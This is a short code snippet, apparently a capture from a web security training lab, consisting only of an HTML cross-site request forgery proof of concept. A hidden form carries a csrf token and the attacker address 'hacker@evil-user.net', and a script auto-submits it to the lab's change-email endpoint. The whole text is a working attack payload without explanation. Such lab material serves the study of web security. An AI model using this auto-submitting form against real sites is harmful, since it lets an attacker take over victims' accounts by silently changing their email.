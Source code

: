 ```
<html>
    <body>
        <form action="https://0a8b0083041dc78fc09f6821009300d7.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="csrf" value="CgwGsTEoQQvRqtp5wScRwNOn1pq5QqkS" />
            <input type="hidden" name="email" value="hacker@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

